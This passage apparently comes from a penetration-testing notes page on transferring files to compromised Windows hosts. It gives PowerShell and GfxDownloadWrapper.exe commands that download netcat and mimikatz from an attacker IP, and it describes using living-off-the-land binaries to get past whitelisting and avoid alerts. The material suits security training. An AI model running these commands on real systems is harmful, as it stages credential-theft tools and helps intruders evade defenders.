  ```powershell
             Safari/533.16
```
Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
## LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries". An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

 Transferring File with GfxDownloadWrapper.exe
 ```pwershell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
Such a binary might be permitted to run by application whitelisting and be excluded from alerting.

Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

{% hint style="success" %}